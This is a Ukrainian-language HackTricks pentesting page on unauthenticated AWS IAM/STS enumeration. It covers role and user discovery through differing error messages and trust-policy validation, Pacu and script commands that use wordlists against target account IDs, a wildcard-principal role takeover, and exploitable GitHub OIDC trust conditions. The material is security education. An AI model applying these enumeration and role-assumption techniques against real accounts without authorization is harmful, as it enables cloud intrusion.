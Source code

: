 # AWS - IAM & STS Неаутентифіковане перерахування

{% hint style="success" %}
Вивчайте та практикуйте хакінг AWS: <img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Школа хакінгу HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте хакінг GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Школа хакінгу HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакінг-прийоми, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв на GitHub.

</details>
{% endhint %}

## Перерахування ролей та імен користувачів в обліковому записі

### ~~Перебір ролей~~

{% hint style="danger" %}
**Ця техніка більше не працює**, оскільки незалежно від того, чи існує роль, ви завжди отримуєте цю помилку:

`An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::947247140022:user/testenv is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::429217632764:role/account-balanceasdas`

Ви можете **перевірити це, запустивши**:

`aws sts assume-role --role-arn arn:aws:iam::412345678909:role/superadmin --role-session-name s3-access-example`
{% endhint %}

Спроба **припустити роль без необхідних дозволів** спричиняє повідомлення про помилку AWS. Наприклад, якщо не авторизовано, AWS може повернути:
```ruby
An error occurred (AccessDenied) when calling the AssumeRole operation: User: arn:aws:iam::012345678901:user/MyUser is not authorized to perform: sts:AssumeRole on resource: arn:aws:iam::111111111111:role/aws-service-role/rds.amazonaws.com/AWSServiceRoleForRDS
```
Це повідомлення підтверджує існування ролі, але вказує на те, що політика assume role цієї ролі не дозволяє ваше припущення. Натомість, спроба **припустити неіснуючу роль призводить до іншої помилки**:
```less
An error occurred (AccessDenied) when calling the AssumeRole operation: Not authorized to perform sts:AssumeRole
```
Цей метод **відрізняння між існуючими та неіснуючими ролями** застосовний навіть між різними обліковими записами AWS. З валідним ідентифікатором облікового запису AWS та цільовим словником можна перелічити ролі, присутні в обліковому записі, не зіткнувшись з жодними вродженими обмеженнями.

Ви можете використовувати цей [скрипт для переліку потенційних суб'єктів](https://github.com/RhinoSecurityLabs/Security-Research/tree/master/tools/aws-pentest-tools/assume\_role\_enum), зловживаючи цією проблемою.

### Політика довіри: перебір ролей та користувачів між обліковими записами

Налаштування або оновлення **політики довіри IAM-ролі передбачає визначення, які ресурси або служби AWS мають право припускати цю роль** та отримувати тимчасові облікові дані. Якщо вказаний ресурс у політиці **існує**, політика довіри зберігається **успішно**. Однак, якщо ресурс **не існує**, генерується **помилка**, що вказує на те, що було надано недійсного суб'єкта.

{% hint style="warning" %}
Зверніть увагу, що в цьому ресурсі можна вказати роль або користувача між обліковими записами:

* `arn:aws:iam::acc_id:role/role_name`
* `arn:aws:iam::acc_id:user/user_name`
{% endhint %}

Ось приклад політики:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":
{
"AWS":"arn:aws:iam::216825089941:role\/Test"
},
"Action":"sts:AssumeRole"
}
]
}
```
#### GUI

Це **помилка**, яку ви знайдете, якщо використовуєте **роль, якої не існує**. Якщо роль **існує**, політика буде **збережена** без будь-яких помилок. (Помилка виникає при оновленні, але також працює при створенні)

![](<../../../.gitbook/assets/image (68).png>)

#### CLI
```bash
### You could also use: aws iam update-assume-role-policy
# When it works
aws iam create-role --role-name Test-Role --assume-role-policy-document file://a.json
{
"Role": {
"Path": "/",
"RoleName": "Test-Role",
"RoleId": "AROA5ZDCUJS3DVEIYOB73",
"Arn": "arn:aws:iam::947247140022:role/Test-Role",
"CreateDate": "2022-05-03T20:50:04Z",
"AssumeRolePolicyDocument": {
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::316584767888:role/account-balance"
},
"Action": [
"sts:AssumeRole"
]
}
]
}
}
}

# When it doesn't work
aws iam create-role --role-name Test-Role2 --assume-role-policy-document file://a.json
An error occurred (MalformedPolicyDocument) when calling the CreateRole operation: Invalid principal in policy: "AWS":"arn:aws:iam::316584767888:role/account-balanceefd23f2"
```
Ви можете автоматизувати цей процес за допомогою [https://github.com/carlospolop/aws\_tools](https://github.com/carlospolop/aws\_tools)

* `bash unauth_iam.sh -t user -i 316584767888 -r TestRole -w ./unauth_wordlist.txt`

Наш використання [Pacu](https://github.com/RhinoSecurityLabs/pacu):

* `run iam__enum_users --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* `run iam__enum_roles --role-name admin --account-id 229736458923 --word-list /tmp/names.txt`
* Роль `admin`, використана в прикладі, є **роллю в вашому обліковому записі, яку може імітувати** pacu для створення необхідних політик для переліку

### Підвищення привілеїв

У випадку, якщо роль погано налаштована і дозволяє будь-кому її припускати:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"AWS": "*"
},
"Action": "sts:AssumeRole"
}
]
}
```
## Третя стороння OIDC Федерація

Уявіть, що вам вдалося прочитати **робочий процес Github Actions**, який отримує доступ до **ролі** всередині **AWS**.\
Це довіра може надати доступ до ролі з наступною **політикою довіри**:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Effect": "Allow",
"Principal": {
"Federated": "arn:aws:iam::<acc_id>:oidc-provider/token.actions.githubusercontent.com"
},
"Action": "sts:AssumeRoleWithWebIdentity",
"Condition": {
"StringEquals": {
"token.actions.githubusercontent.com:aud": "sts.amazonaws.com"
}
}
}
]
}
```
Ця політика довіри може бути правильною, але **відсутність додаткових умов** повинна змусити вас їй не довіряти.\
Це тому, що попередню роль може припустити **БУДЬ-ХТО з Github Actions**! Вам слід також вказати в умовах інші речі, такі як назва організації, назва репозиторію, середовище, гілка...

Ще одна потенційна помилкова конфігурація - **додати умову** наступного типу:
```json
"StringLike": {
"token.actions.githubusercontent.com:sub": "repo:org_name*:*"
}
```
Зверніть увагу на **шаблон** (\*) перед **двокрапкою** (:). Ви можете створити організацію, таку як **org\_name1**, і **припустити роль** з Github Action.

## Посилання

* [https://www.youtube.com/watch?v=8ZXRw4Ry3mQ](https://www.youtube.com/watch?v=8ZXRw4Ry3mQ)
* [https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/](https://rhinosecuritylabs.com/aws/assume-worst-aws-assume-role-enumeration/)

{% hint style="success" %}
Вивчайте та практикуйте взлом AWS:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Навчання HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Вивчайте та практикуйте взлом GCP: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Навчання HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Підтримайте HackTricks</summary>

* Перевірте [**плани підписки**](https://github.com/sponsors/carlospolop)!
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи Telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поширюйте хакерські трюки, надсилаючи PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>
{% endhint %}

